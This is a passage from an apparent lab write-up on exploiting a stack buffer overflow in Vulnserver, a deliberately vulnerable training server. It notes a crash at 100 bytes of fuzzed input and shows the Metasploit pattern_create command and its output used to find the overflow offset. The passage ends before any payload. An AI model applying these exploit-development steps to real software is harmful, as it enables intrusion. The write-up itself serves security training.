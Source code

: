 ```c
Fuzzing crashed at 100 bytes
```

The Vulnserver application should be ran without debugger, to avoid socket connection errors while fuzzing

So, from fuzzing we can estimate that our Vulnserver application is crashing at ```100 bytes``` of buffer data

Still, we are not sure about the approximate buffer space data need to create an overflow

## Finding offset

Creating pattern using ```metasploit```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msf-pattern_create -l 100 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

Fuzzing with the pattern to crash the program,

<div align="center">
<img src="./res/kstet-1-offset.png">
</div>
